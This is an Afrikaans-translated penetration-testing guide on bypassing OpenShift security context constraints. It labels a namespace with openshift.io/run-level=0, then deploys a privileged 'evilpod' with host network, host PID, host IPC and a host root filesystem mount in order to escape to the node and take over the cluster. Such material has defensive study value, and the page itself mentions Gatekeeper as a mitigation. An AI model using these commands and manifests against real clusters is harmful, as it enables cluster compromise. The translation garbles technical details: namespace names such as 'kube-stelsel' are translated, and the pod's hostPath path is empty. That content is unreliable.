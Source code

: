 # Openshift - SCC omseil

**Die oorspronklike skrywer van hierdie bladsy is** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## Bevoorregte Naamruimtes

Standaard is SCC nie van toepassing op die volgende projekte nie:

* **standaard**
* **kube-stelsel**
* **kube-publiek**
* **openshift-node**
* **openshift-infra**
* **openshift**

As jy peule in een van hierdie naamruimtes ontplooi, sal geen SCC afgedwing word nie, wat die ontplooiing van bevoorregte peule of die koppelvlak van die gasheer se lêersisteem moontlik maak.

## Naamruimte-etiket

Daar is 'n manier om die toepassing van die SCC op jou peul te deaktiveer volgens die RedHat-dokumentasie. Jy sal ten minste een van die volgende toestemmings nodig hê:

* Skep 'n Naamruimte en Skep 'n Peul in hierdie Naamruimte
* Wysig 'n Naamruimte en Skep 'n Peul in hierdie Naamruimte
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Die spesifieke etiket `openshift.io/run-level` stel gebruikers in staat om SCCs vir toepassings te omseil. Volgens RedHat-dokumentasie, wanneer hierdie etiket gebruik word, word geen SCCs afgedwing op alle peule binne daardie naamruimte nie, wat effektief enige beperkings verwyder.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Voeg Etiket By

Om die etiket in jou naamruimte by te voeg:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Om 'n naamspasie te skep met die etiket deur 'n YAML-lêer:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Nou moet alle nuwe peule wat geskep word in die naamspasie geen SCC hê nie

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In die afwesigheid van SCC is daar geen beperkings op jou peuldefinisie nie. Dit beteken dat 'n skadelike peul maklik geskep kan word om te ontsnap na die gasheerstelsel.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Nou is dit makliker om voorregte te eskaleer om toegang tot die gasheerstelsel te verkry en gevolglik die hele groep oor te neem, deur 'cluster-admin' voorregte te verkry. Soek na die **Node-Post Exploitation** deel op die volgende bladsy:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Aangepaste etikette

Verder, gebaseer op die teikenopstelling, kan sommige aangepaste etikette / annotasies op dieselfde manier as die vorige aanvalscenario gebruik word. Selfs al is dit nie daarvoor bedoel nie, kan etikette gebruik word om toestemmings te gee, te beperk of nie 'n spesifieke hulpbron te beperk nie.

Probeer om na aangepaste etikette te soek as jy sommige bronne kan lees. Hier is 'n lys van interessante bronne:

* Pod
* Implementering
* Naamspasie
* Diens
* Roete
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Lys alle bevoorregte namespaces op
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Gevorderde uitbuiting

In OpenShift kan die toestemming om 'n houer in 'n naamspasie met die `openshift.io/run-level` etiket te ontplooi, soos vroeër gedemonstreer, lei tot 'n reguit oorneem van die groep. Vanuit 'n groepinstellingsperspektief **kan hierdie funksionaliteit nie gedeaktiveer word nie**, omdat dit inherent is aan OpenShift se ontwerp.

Nietemin kan maatreëls ter beperking soos **Open Policy Agent GateKeeper** voorkom dat gebruikers hierdie etiket instel.

Om GateKeeper se reëls te omseil en hierdie etiket in te stel om 'n groepsoorneem uit te voer, **sal aanvallers alternatiewe metodes moet identifiseer.**

## Verwysings

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
